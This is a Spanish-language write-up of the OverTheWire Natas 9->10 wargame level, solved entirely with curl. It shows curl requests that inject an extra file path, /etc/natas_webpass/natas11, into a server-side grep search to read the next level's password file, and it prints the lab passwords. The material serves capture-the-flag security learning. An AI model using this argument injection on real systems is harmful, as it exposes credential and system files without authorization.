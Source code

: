 ```yaml
---
title: OverTheWire - Natas 9 -> 10 (sin navegador)
layout: post
post-image: /assets/images/gatohacker1.jpg 
description: La resolución de Natas 9 -> 10 sin el uso de un navegador web.
tags:
- OverTheWire
- Natas
- post
- writeups
---
```

# Información
---

```
Username: natas10
Password: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
URL:      http://natas10.natas.labs.overthewire.org
```

# Solución
---

Primero ejecutamos el comando curl con el parámetro `-u` para indicar las credenciales. 

```bash
curl -u natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/
```

![](/assets/images/images-otw-natas/natas9->10-1.png)

Vemos que existe un buscado y su código fuente que se almacena en `index-source.html`.

![](/assets/images/images-otw-natas/natas9->10-2.png)

Si vamos al archivo no podremos ver nada.

```bash
curl -u natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/index-source.html
```

![](/assets/images/images-otw-natas/natas9->10-3.png)

Esto se soluciona instalando la herramienta `html2text` con el comando `sudo apt install html2text`.

 ```bash
curl -u natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/index-source.html | html2text
 ```

![](/assets/images/images-otw-natas/natas9->10-4.png)

Se está haciendo una lista negra con los carácteres `; | &`, es decir, si escribimos estos carácteres en la búsqueda la página nos dará un error.

![](/assets/images/images-otw-natas/natas9->10-5.png)

Lo que ingresemos en la búsqueda se guardará en la variable `$key` y se agregará al comando grep.

![](/assets/images/images-otw-natas/natas9->10-6.png)

Para resolver este reto y obtener la contraseña primero debemos entender cómo funciona el comando grep.

Tenemos un archivo llamado `archivo1.txt` que tiene la palabra `hola!`.

![](/assets/images/images-otw-natas/natas9->10-7.png)

Y otro archivo llamado `archivo2.txt` que contiene la palabra `chao!`.

![](/assets/images/images-otw-natas/natas9->10-8.png)

Si buscamos la letra `a` con el comando grep sobre ambos archivo obtenemos las palabras enteras, y grep nos indica el nombre del archivo al que pertece cada palabra.

```bash
grep -i a archivo1.txt archivo2.txt
```

![](/assets/images/images-otw-natas/natas9->10-9.png)

Esta parte marcada en rojo es la que nosotros controlamos en la búsqueda de la página.

![](/assets/images/images-otw-natas/natas9->10-10.png)

Si buscamos una letra que no aparece en ningún archivo, entonces no nos mostrará nada. Lo mismo si filtramos una letra que aparece solo en un archivo.

![](/assets/images/images-otw-natas/natas9->10-11.png)

Con esto en mente filtraremos por la letra `a`, y agregaremos el archivo `/etc/natas_webpass/natas11` que contiene la contraseña para el siguiente nivel.

```bash
curl -u natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/ -d 'needle=a /etc/natas_webpass/natas11&submit=hola'
```

![](/assets/images/images-otw-natas/natas9->10-12.png)

Pero lo página nos muestra mucho texto. Enviaremos todo este output hacia un archivo cualquiera con el nombre `natas10.txt`.

```bash
curl -u natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/ -d 'needle=a /etc/natas_webpass/natas11&submit=hola' > natas10.txt
```

![](/assets/images/images-otw-natas/natas9->10-19.png)

Y ejecutaremos el comando head para observar solo las primeras lineas de la respuesta.

```bash
head -n 30 natas10.txt
```

Notamos que en la respuesta no se encuentra la contraseña de natas11, esto es porque la contraseña no contiene la letra `a`. Seguiremos reemplazando la letra en nuestro comando de curl, hasta que nos devuelva la contraseña.

![](/assets/images/images-otw-natas/natas9->10-14.png)

Realizamos el mismo procedimiento pero cambiamos la letra `a` por una `b`.

```bash
curl -u natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/ -d 'needle=b /etc/natas_webpass/natas11&submit=hola' > natas10.txt
```

![](/assets/images/images-otw-natas/natas9->10-15.png)

Nuevamente no vemos nada porque lo contraseña de natas11 no contiene la letra `b`.

```bash
head -n 30 natas10.txt
```

![](/assets/images/images-otw-natas/natas9->10-16.png)

Realizamos el mismo procedimiento pero cambiamos la letra `b` por la letra `c`.

```bash
curl -u natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu http://natas10.natas.labs.overthewire.org/ -d 'needle=c /etc/natas_webpass/natas11&submit=hola' > natas10.txt
```

![](/assets/images/images-otw-natas/natas9->10-17.png)

Ejecutamos el comando head y esta vez sí vemos la contraseña de natas11.

```bash
head -n 30 natas10.txt
```

![](/assets/images/images-otw-natas/natas9->10-18.png)

# Contraseña
---

`U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK`

---

## [Anterior](/blog/level-8-9)
